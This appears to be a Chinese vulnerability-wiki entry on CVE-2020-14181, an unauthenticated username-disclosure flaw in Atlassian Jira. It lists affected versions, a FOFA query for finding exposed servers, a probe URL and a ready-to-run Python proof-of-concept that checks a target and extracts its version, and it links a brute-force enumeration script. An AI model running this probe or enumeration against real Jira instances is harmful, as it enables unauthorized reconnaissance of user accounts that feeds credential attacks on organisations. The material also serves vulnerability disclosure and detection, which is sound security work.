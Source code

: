 # Atlassian Jira 信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

> [!NOTE]
>
> Atlassian Jira < 7.13.6
>
> Atlassian Jira 8.0.0 - 8.5.7
>
> Atlassian Jira 8.6.0 - 8.12.0

## FOFA

> [!NOTE]
>
> app="Jira"

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![](http://wikioss.peiqi.tech/vuln/jira-1.png)

使用POC对用户名是否存在进行验证

http://xxx.xxx.xxx.xxx/secure/ViewUserHover.jspa?username=admin

用户名如果不存在会返回

![](http://wikioss.peiqi.tech/vuln/jira-2.png)

存在的用户名会返回

![](http://wikioss.peiqi.tech/vuln/jira-4.png)

不存在漏洞会返回

![](http://wikioss.peiqi.tech/vuln/jira-3.png)



## 漏洞利用POC

> [!NOTE]
>
> POC只用于探测是否存在漏洞
>
> 爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/jira-6.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Atlassian_Jira_user_information_disclosure

![](http://wikioss.peiqi.tech/vuln/jira-5.png)